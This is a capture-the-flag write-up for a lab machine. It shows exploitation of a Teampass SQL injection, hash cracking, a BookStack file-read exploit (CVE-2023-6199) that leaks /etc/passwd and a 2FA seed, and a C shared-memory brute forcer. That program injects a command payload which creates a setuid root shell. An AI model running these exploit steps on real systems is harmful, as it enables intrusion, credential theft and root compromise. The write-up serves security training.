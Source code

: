 # Enumeration

Three ports were available on the machine.

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd
|_http-server-header: Apache
|_http-title: 403 Forbidden
8080/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: 403 Forbidden
```

There are 2 web applications preventing access using login forms.

I focused on the one hosted on 8080. A Teampass application was on this service and was vulnerable to an sqli: https://www.exploit-db.com/exploits/52094.

Running the exploit, two hashes were found, one for the admin user and an other for the user "bob".

![](./assets/exploit_sqli.png)

```
admin: $2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya
bob: $2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy
```

I tried to crack them both.

`hashcat -a 0 -m 3200 hashes ~/pentest/wordlist/rockyou.txt`

`$2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy:cheerleader`

But only bob password were recovered

bob:cheerleader

With these credentials the access to the teampass was possible.

![](./assets/teampass_form.png)

![](./assets/teampass_access.png)

Login into the app, documents about ssh and bookstack access was available, except that the password for ssh (`hiccup-publicly-genesis`) didn't work.

`bob@checker.htb:mYSeCr3T_w1kI_P4sSw0rD`

With these new credentials, I could access the bookstack application, application vulnerable to the following CVE: CVE-2023-6199. A walkthrough on how to exploit it is available at https://fluidattacks.com/blog/lfr-via-blind-ssrf-book-stack. They were using this [tools](https://fluidattacks.com/es/advisories/imagination) but changes had to be made for the exploit to work with the bookstack vulnerabitlity:

```python
"""
The use of base64 src image were desmonstrated in the POC of the vulnerability , so I assumed the file reading was through this
"""
data[self.parameter] = f"<img src='data:image/png;base64,{b64encode(filter_chain.encode()).decode()}'/>" #line 99
```

```bash
python3 filters_chain_oracle_exploit.py --parameter html --headers '{"Content-Type": "application/x-www-form-urlencoded","X-CSRF-TOKEN":"mCqmrMByrxnbA3Bh1mhay1W3tCjcl4QQDen9UlXj","Cookie":"bookstack_session=eyJpdiI6InM4dzg5MXliOTRxQmxBZ3l3dWN4cGc9PSIsInZhbHVlIjoiMTJDY2cyVlpFaFRpZFE3UFArTS9KOFo3ZVgxMnNOMmc1Z0wwU3FmODFhYUxnZEVyYVUyRzJoK2prem9rcVhsZG1HVXVrdXZrLzhyNjgvM0F1bzdJUU5PdWE2Q0U4RlRhZHVSZ21Jdk5NSnhnVWZOZW1SamwwejNMNFJJSVpJeVEiLCJtYWMiOiJmMDM4ZTZiOTAzMTNlZTM2ODdkZTdiOGNlMGE0MzA2NzZlNTIzOTM3MzYwMGFmYmZmZDhkMTkyMDljZTcxMzIxIiwidGFnIjoiIn0%3D"}' --verb PUT --target http://checker.htb/ajax/page/8/save-draft --file '/etc/passwd'
```

With this file I discovered a user called "reader". I remembered ssh credentials stored in the teampass application. I tried them and the password worked ! However, it required a "verification code"

```
ssh reader@10.10.11.56
(reader@10.10.11.56) Password: 
(reader@10.10.11.56) Verification code: 
```

Looking for 2fa configuration files related to ssh, I came across the `~/.google_authentication` file. Unfortunately, this file is only readable by the user itself. However, the blog spoke about backups.

![](./assets/home_backup.png)

I try to read the file located in the backup folder:

```bash
python3 filters_chain_oracle_exploit.py --parameter html --headers '{"Content-Type": "application/x-www-form-urlencoded","X-CSRF-TOKEN":"mCqmrMByrxnbA3Bh1mhay1W3tCjcl4QQDen9UlXj","Cookie":"bookstack_session=eyJpdiI6InM4dzg5MXliOTRxQmxBZ3l3dWN4cGc9PSIsInZhbHVlIjoiMTJDY2cyVlpFaFRpZFE3UFArTS9KOFo3ZVgxMnNOMmc1Z0wwU3FmODFhYUxnZEVyYVUyRzJoK2prem9rcVhsZG1HVXVrdXZrLzhyNjgvM0F1bzdJUU5PdWE2Q0U4RlRhZHVSZ21Jdk5NSnhnVWZOZW1SamwwejNMNFJJSVpJeVEiLCJtYWMiOiJmMDM4ZTZiOTAzMTNlZTM2ODdkZTdiOGNlMGE0MzA2NzZlNTIzOTM3MzYwMGFmYmZmZDhkMTkyMDljZTcxMzIxIiwidGFnIjoiIn0%3D"}' --verb PUT --target http://checker.htb/ajax/page/8/save-draft --file "/backup/home_backup/home/reader/.google_authenticator"
[*] The following URL is targeted : http://checker.htb/ajax/page/8/save-draft
[*] The following local file is leaked : /backup/home_backup/home/reader/.google_authenticator
[*] Running PUT requests
[*] Additionnal headers used : {"Content-Type": "application/x-www-form-urlencoded","X-CSRF-TOKEN":"mCqmrMByrxnbA3Bh1mhay1W3tCjcl4QQDen9UlXj","Cookie":"bookstack_session=eyJpdiI6InM4dzg5MXliOTRxQmxBZ3l3dWN4cGc9PSIsInZhbHVlIjoiMTJDY2cyVlpFaFRpZFE3UFArTS9KOFo3ZVgxMnNOMmc1Z0wwU3FmODFhYUxnZEVyYVUyRzJoK2prem9rcVhsZG1HVXVrdXZrLzhyNjgvM0F1bzdJUU5PdWE2Q0U4RlRhZHVSZ21Jdk5NSnhnVWZOZW1SamwwejNMNFJJSVpJeVEiLCJtYWMiOiJmMDM4ZTZiOTAzMTNlZTM2ODdkZTdiOGNlMGE0MzA2NzZlNTIzOTM3MzYwMGFmYmZmZDhkMTkyMDljZTcxMzIxIiwidGFnIjoiIn0%3D"}
[+] File /backup/home_backup/home/reader/.google_authenticator leak is finished!
RFZEQlJBT0RMQ1dGN0kyT05BNEs1TFFMVUUKIiBUT1RQX0FVVEgK
b'DVDBRAODLCWF7I2ONA4K5LQLUE\n" TOTP_AUTH\n'
```

This is the seed we need to recover the 2fa code. By writing this python script I managed to retrieve a valid code

```python
import pyotp
secret = "DVDBRAODLCWF7I2ONA4K5LQLUE"

totp = pyotp.TOTP(secret)   
print(totp.now())
```

```bash
/usr/bin/python /home/meow/htb/checker/otp.py
259456
```

![](./assets/reader.png)

On the machine, there were a script with sudo permission:

![](./assets/reader_perms.png)

this is the content of the script:

```bash
#!/bin/bash
source `dirname $0`/.env
USER_NAME=$(/usr/bin/echo "$1" | /usr/bin/tr -dc '[:alnum:]')
/opt/hash-checker/check_leak "$USER_NAME"
```

Along with the script was a binary and a file containing hashes:

![](./assets/leaked_hashes.png)

I use ghidra to reverse the binary. What caught my eyes is the use of shared memory:

```c
__shmid = shmget(param_5,0,0x1b6);
  if (__shmid == 0xffffffff) {
    printf("No shared memory segment found for the given address: 0x%X\n",(ulong)param_5);
  }
  else {
    __haystack = (char *)shmat(__shmid,(void *)0x0,0);
    if (__haystack == (char *)0xffffffffffffffff) {
      if (DAT_80019140 != '\0') {
        __asan_report_load8(&stderr);
      }
      fprintf(stderr,
              "Unable to attach to shared memory segment with ID %d. Please check if the segment is accessible.\n"
              ,(ulong)__shmid);
    }
    else {
      pcVar4 = strstr(__haystack,"Leaked hash detected");
      if (pcVar4 == (char *)0x0) {
        puts("No hash detected in shared memory.");
      }
      else {
        pcVar4 = strchr(pcVar4,0x3e);
        if (pcVar4 == (char *)0x0) {
          puts("Malformed data in the shared memory.");
        }
        else {
          uVar5 = trim_bcrypt_hash(pcVar4 + 1);
          iVar2 = setenv("MYSQL_PWD",param_3,1);
          if (iVar2 == 0) {
            iVar2 = snprintf((char *)0x0,0,
                             "mysql -u %s -D %s -s -N -e \'select email from teampass_users where pw  = \"%s\"\'"
                             ,param_2,param_4,uVar5);
```

What it does:
- read a shared memory located at an "unknown" address
- extract its value
- look for `Leaked hash detected`
- extract the "hash" based on `>`
- pass the "hash" through the function `trim_bcrypt_hash`
- execute a `mysql` command with the returned value put in the query

To exploit this, we need:
- To find the key allowing us to recreate the shared-memory address (brute force)
- Attach the following payload `Leaked hash detected > '; cp /bin/bash /tmp/meow; chmod 4755 /tmp/meow;#` to this shared-memory

Asking chatGPT to write a code according to the requirements:

```
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <sys/ipc.h>
#include <sys/shm.h>
#include <string.h>
#include <unistd.h>
#include <errno.h>

#define SHM_SIZE 1024
#define MAX_TRIES 100000
#define PAYLOAD "Leaked hash detected > '; cp /bin/bash /tmp/meow; chmod 4755 /tmp/meow;#"

int main() {
    key_t key;
    int shmid;
    char *shmaddr;
    int attempts = 0;

    srand(time(NULL));

    while (attempts < MAX_TRIES) {
        key = rand() % 0xFFFFF; 

        shmid = shmget(key, SHM_SIZE, 0);
        if (shmid != -1) {
            printf("[+] Found valid shared memory segment with key: 0x%X (attempt %d)\n", key, attempts);

            shmaddr = shmat(shmid, NULL, 0);
            if (shmaddr == (char *)-1) {
                perror("[-] Failed to attach to shared memory");
            } else {
                printf("[*] Writing payload to shared memory...\n");
                strncpy(shmaddr, PAYLOAD, SHM_SIZE - 1);
                shmaddr[SHM_SIZE - 1] = '\0';

                if (shmdt(shmaddr) == -1) {
                    perror("[-] Failed to detach from shared memory");
                } else {
                    printf("[+] Payload injected and detached successfully.\n");
                }
                break;
            }
        }

        attempts++;
    }

    if (attempts == MAX_TRIES) {
        printf("[-] Exhausted %d attempts without finding a valid segment.\n", MAX_TRIES);
    }

    return 0;
}
```

I had a few tries before it worked, but after the 4th attempt:

![](./assets/error.png)

And indeed:

![](./assets/meow.png)

Finally, the root access:

![](./assets/root.png)
